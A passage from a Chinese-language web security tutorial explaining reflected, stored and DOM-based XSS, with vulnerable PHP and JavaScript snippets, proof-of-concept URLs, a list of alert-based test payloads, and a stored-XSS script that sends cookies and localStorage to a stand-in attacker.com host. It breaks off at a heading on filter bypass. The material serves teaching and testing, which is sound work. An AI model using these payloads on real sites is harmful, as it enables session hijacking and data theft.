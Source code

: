 
### 5.2 跨站腳本攻擊（XSS）詳解

XSS是OWASP Top 10第七名漏洞。

**5.2.1 XSS類型分析**：

**反射型XSS（Reflected XSS）**：

```html
<!-- 易受攻擊的代碼 -->
<p>搜索結果：<?php echo $_GET['search']; ?></p>

<!-- 攻擊負載 -->
http://target.com/search.php?search=<script>alert('XSS')</script>
```

**儲存型XSS（Stored XSS）**：

```html
<!-- 留言板評論 -->
<script>
// 竊取Cookie
document.location='http://attacker.com/steal.php?cookie='+document.cookie;

// 竊取localStorage
var data = JSON.stringify(localStorage);
fetch('http://attacker.com/steal.php', {
    method: 'POST', 
    body: 'data=' + data
});
</script>
```

**DOM型XSS**：

```javascript
// 易受攻擊的代碼
document.getElementById('welcome').innerHTML = "Hello " + location.hash.substring(1);

// 攻擊URL
http://target.com/page.html#<script>alert('XSS')</script>
```

**5.2.2 XSS檢測技術**：[^40]

**基本Payload**：

```javascript
<script>alert('XSS')</script>
<img src="x" onerror="alert('XSS')">
<svg onload="alert('XSS')">
<iframe src="javascript:alert('XSS')">
<body onload="alert('XSS')">
<div onmouseover="alert('XSS')">test</div>
```

**繞過過濾器**：
